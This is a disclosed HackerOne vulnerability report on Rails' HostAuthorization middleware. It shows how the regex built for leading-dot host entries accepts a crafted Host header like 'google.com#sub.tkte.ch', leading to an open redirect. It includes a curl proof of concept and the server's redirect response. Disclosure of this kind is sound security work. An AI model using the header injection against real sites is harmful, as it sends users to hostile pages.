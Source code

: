 # HostAuthorization middleware does not suitably sanitize the Host / X-Forwarded-For header allowing redirection.

## Report Details
- **Report ID**: 1047447
- **URL**: https://hackerone.com/reports/1047447
- **State**: Closed
- **Severity**: low
- **Submitted**: 2020-11-30T23:25:50.500Z
- **Disclosed**: 2021-02-11T01:39:07.028Z

## Reporter
- **Username**: tktech
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rails

## Vulnerability Information
When a site is configured to use the `.tkte.ch` (leading dot) short form for domain name, ex:

```ruby
config.hosts <<  '.tkte.ch'
```

it is then sanitized in sanitize_string, where it is turned into a regex:

```ruby
        def sanitize_string(host)
          if host.start_with?(".")
            /\A(.+\.)?#{Regexp.escape(host[1..-1])}\z/
          else
            host
          end
        end
```

The regex it is wrapped in is too permissive. It allows for things like:

```
❯ curl -i -H "Host: google.com#sub.tkte.ch" http://localhost:3001/
HTTP/1.1 302 Found
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Download-Options: noopen
X-Permitted-Cross-Domain-Policies: none
Referrer-Policy: strict-origin-when-cross-origin
Location: http://google.com#sub.tkte.ch/
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
X-Request-Id: 3b1702ac-a58f-44bf-af8a-a2933a9946fd
X-Runtime: 0.004726
Transfer-Encoding: chunked

<html><body>You are being <a href="http://google.com#sub.tkte.ch/">redirected</a>.</body></html>
```

Where the controller is simply:

```ruby
class RedirectController < ApplicationController
  def main
    redirect_to action: 'main'
  end
end
````

The host header poisoning was reported to us by a 3rd party researcher, and tracking it down led to this.

## Impact

A user can be redirected to a hostile site.

## Attachments
No attachments
